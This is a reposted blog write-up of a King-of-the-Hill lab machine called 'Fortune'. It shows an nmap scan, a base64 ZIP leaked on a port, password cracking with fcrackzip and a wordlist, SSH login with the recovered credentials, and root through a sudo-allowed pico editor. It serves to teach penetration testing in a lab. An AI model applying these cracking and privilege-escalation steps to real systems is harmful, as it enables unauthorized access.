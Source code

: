# NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Fortune | KOTH Writeup 

A Concise KOTH Writeup.

Released: 2024-04-15

## NMAP

- I used `sudo nmap -sV -sC 10.10.148.32` for my scan.

```bash
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sV -sC 10.10.148.32 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 15:40 EDT
Nmap scan report for 10.10.148.32
Host is up (0.092s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:ae:18:87:b8:c3:35:b6:3a:af:0e:a4:c3:a2:ef:13 (RSA)
|   256 42:cf:fe:0d:cb:92:24:b9:8f:dc:11:d4:10:a7:a0:3e (ECDSA)
|_  256 5c:fc:bc:c9:3a:01:b1:b6:78:ac:66:3c:34:8f:22:2a (ED25519)
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wheel of Fortune!
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43991/tcp   mountd
|   100005  1,2,3      51188/udp   mountd
|   100005  1,2,3      53990/udp6  mountd
|   100005  1,2,3      54207/tcp6  mountd
|   100021  1,3,4      38116/udp   nlockmgr
|   100021  1,3,4      38145/tcp   nlockmgr
|   100021  1,3,4      39708/udp6  nlockmgr
|   100021  1,3,4      45597/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs        3-4 (RPC #100003)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds
```

## Getting User

- Dirsearch gave us nothing.

- If we look at the NMAP Scan, on port 3333 we see this…

```bash
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
9999/tcp open  http       Werkzeug httpd 1.0.1 (Python 3.6.9)
```

- After extracting the Base64 string and pasting it into Cyberchef, it tells us it is a PKZIP.

![Image showing pkzip](blog/fortune/pkzip.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- Let's see what's inside.

```bash
┌──(vipin㉿vipin)-[~/Desktop]
└─$ echo 'UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwABBAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAAUEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVUBQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=' | base64 -d > cred.zip
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
```

- It seems password-protected. I will crack it with *fcrackzip* (A ZIP cracking tool).

```bash
┌──(vipin㉿vipin)-[~/Desktop]
└─$ fcrackzip -u -D -p  /usr/share/wordlists/rockyou.txt /home/vipin/Desktop/cred.zip


PASSWORD FOUND!!!!: pw == peaceout
```

- Now that we have the password, we can unzip the file.

```bash
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                       
┌──(vipin㉿vipin)-[~/Desktop]
└─$ cat creds.txt 
fortuna:MGE0OTJiM2
```

- It seems to be credentials to the user *fortuna*.

```bash
┌──(vipin㉿vipin)-[~/Desktop]
└─$ ssh fortuna@$IP               
The authenticity of host '10.10.148.32 (10.10.148.32)' can't be established.
ED25519 key fingerprint is SHA256:UlktbYjOEgkrcijQ2e1j4iJ3u9hj8b2xzTtKJE5YTIw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.32' (ED25519) to the list of known hosts.
fortuna@10.10.148.32's password: 



        ################################
        ###  Come to try your luck?  ###
        ### Welcome to your fortune! ###
        ################################

```

- The credentials worked!

## Rooting the machine

- I started by running `sudo -l` which tells us what the user can use sudo for.

```bash
fortuna@fortune:~$ sudo -l
[sudo] password for fortuna: 
Matching Defaults entries for fortuna on fortune:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fortuna may run the following commands on fortune:
    (ALL : ALL) /usr/bin/pico
```

> What is pico?

- **Pico** is a text editor like **Nano** and **Vim**.

- Lets see how we can utilize it to get root, we will be using [gtfobins](https://gtfobins.github.io/gtfobins/pico/) to do this.

![Image showing gtfobin pico](blog/fortune/gtfobinpico.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1 *GTFObins*</small>
</div>


- And it worked! (I forgot to take an image of it 😢)

- Once I got root, I spawned a PTY with `python -c'import pty; pty.spawn("/bin/bash")'`

- After I got root, I put my name in the king's file to get points every minute.

```bash
root@fortune:/root# ls
flagtips.txt  king.txt
root@fortune:/root# cat flagtips.txt
Some flags are flags, some flags are games.
Good luck!
root@fortune:/root# echo 'vipin.b' > king.txt 
root@fortune:/root# cat king.txt
vipin.b
root@fortune:/root# 
```

- It seems like there isn’t a root flag. At least we rooted the machine!

### MACHINE PWN'ED 😎

